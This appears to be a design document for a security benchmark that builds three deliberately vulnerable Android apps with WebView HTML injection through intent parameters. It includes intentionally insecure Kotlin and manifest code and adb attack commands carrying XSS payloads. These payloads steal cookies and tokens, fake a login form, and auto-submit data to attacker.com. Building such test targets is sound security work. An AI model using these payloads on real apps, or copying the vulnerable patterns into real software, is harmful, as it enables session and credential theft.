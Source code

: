 # HTML Injection Through Intent Parameter Vulnerability

## Vulnerability Overview

HTML Injection Through Intent Parameter occurs when an Android app's WebView component displays content received from intent parameters without proper sanitization. This vulnerability allows attackers to inject malicious HTML, CSS, and JavaScript code through intent extras, leading to Cross-Site Scripting (XSS) attacks within the WebView context.

The vulnerability typically manifests when apps:
- Load HTML content directly from intent extras using `loadData()` or `loadDataWithBaseURL()`
- Display user-provided content in WebView without input validation
- Enable JavaScript in WebView while processing untrusted intent data
- Fail to sanitize HTML content before rendering
- Use exported activities that accept HTML content parameters

Common attack scenarios include:
- **Cross-Site Scripting (XSS)** - Execute malicious JavaScript in the WebView context
- **Content Spoofing** - Display fake content or phishing pages
- **Data Exfiltration** - Steal sensitive data through JavaScript execution
- **Session Hijacking** - Access cookies, local storage, or session tokens
- **UI Redressing** - Modify the app's appearance or behavior

## Attack Vector Implementation Plan

Here are 3 specific attack vectors for HTML Injection Through Intent Parameter vulnerability, each implemented as a separate vulnerable Android app:

### oxo-android-ben43: Basic XSS via Script Tag Injection

**Brief Explanation**: Direct injection of `<script>` tags through intent parameters that execute JavaScript when the HTML content is loaded in WebView.

**Key Characteristics:**
- Intent parameter contains malicious script tags
- WebView executes JavaScript without validation
- Can access WebView context and perform unauthorized actions
- Immediate execution upon content load

**Vulnerable Code Pattern:**
```kotlin
val htmlContent = intent.getStringExtra("content") ?: "Default content"
webView.loadData(htmlContent, "text/html", "utf-8")  // VULNERABLE!
```

**Attack Command:**
```bash
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<h1>News Article</h1><script>alert('XSS Attack - Sensitive Data: ' + localStorage.getItem('userToken'))</script>"
```

### oxo-android-ben44: Event Handler Injection with Social Engineering

**Brief Explanation**: Injection of HTML elements with malicious event handlers that execute when users interact with the content, combined with social engineering to trick users into clicking.

**Key Characteristics:**
- Uses HTML event handlers (onclick, onmouseover, onerror)
- Requires user interaction to trigger
- Can be disguised as legitimate content
- Bypasses some XSS filters that only check for script tags

**Vulnerable Code Pattern:**
```kotlin
val title = intent.getStringExtra("title") ?: "Article"
val content = intent.getStringExtra("content") ?: "Content"
val html = "<h1>$title</h1><div>$content</div>"
webView.loadData(html, "text/html", "utf-8")  // VULNERABLE!
```

**Attack Commands:**
```bash
# Malicious button injection
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<button onclick='alert(\"Credentials stolen: \" + prompt(\"Enter password to continue:\"))'>Click to Read Full Article</button>"

# Image with error handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<img src='invalid' onerror='alert(\"Cookie: \" + document.cookie)' style='display:none'><p>Loading article...</p>"
```

### oxo-android-ben45: Form-based Data Exfiltration

**Brief Explanation**: Injection of HTML forms that automatically submit sensitive data to attacker-controlled servers, or prompt users for additional sensitive information.

**Key Characteristics:**
- Creates hidden or visible forms for data collection
- Can auto-submit forms using JavaScript
- Exfiltrates data to external servers
- Can prompt for additional user credentials

**Vulnerable Code Pattern:**
```kotlin
val articleHtml = intent.getStringExtra("article_html") ?: "<p>No content</p>"
val fullHtml = """
    <html><body>
    <h1>News Reader</h1>
    $articleHtml
    </body></html>
""".trimIndent()
webView.loadDataWithBaseURL("https://newsreader.app", fullHtml, "text/html", "utf-8", null)  // VULNERABLE!
```

**Attack Commands:**
```bash
# Auto-submitting exfiltration form
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<form id='steal' action='https://attacker.com/collect' method='POST'><input type='hidden' name='data' value='Stolen App Data'></form><script>document.getElementById('steal').submit()</script><p>Article content loading...</p>"

# Credential harvesting form
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e article_html "<div style='border:1px solid #ccc; padding:20px; background:#f9f9f9'><h3>Session Expired</h3><p>Please re-enter your credentials:</p><form><input type='text' placeholder='Username' onchange='alert(\"Stolen: \" + this.value)'><input type='password' placeholder='Password' onchange='alert(\"Password: \" + this.value)'><button type='button'>Login</button></form></div>"
```

## Implementation Details

### Vulnerable Activity Configuration
```xml
<activity
    android:name=".HtmlViewerActivity"
    android:exported="true"
    android:label="HTML Viewer">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <data android:scheme="content" />
    </intent-filter>
</activity>
```

### WebView Security Settings (Intentionally Insecure)
```kotlin
webView.settings.javaScriptEnabled = true  // DANGEROUS
webView.settings.domStorageEnabled = true
webView.settings.allowFileAccess = false
webView.settings.allowContentAccess = true
```

## Impact Assessment

- **Confidentiality**: High - Can access sensitive app data, cookies, local storage
- **Integrity**: High - Can modify app content and user interface
- **Availability**: Medium - Can redirect users or cause app malfunction
- **OWASP Mobile Top 10**: M7 - Client Code Quality, M10 - Extraneous Functionality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation), CWE-94 (Code Injection)

## Testing Methodology

1. **Basic XSS Testing** - Test script injection through intent parameters
2. **Event Handler Testing** - Test various HTML event handlers for code execution
3. **Form Injection Testing** - Test data exfiltration through malicious forms
4. **Content Spoofing Testing** - Test ability to display fake content
5. **Social Engineering Testing** - Test user interaction with malicious content

This benchmark provides comprehensive testing scenarios for HTML injection vulnerabilities in Android WebView implementations while demonstrating various attack techniques that security tools should detect.
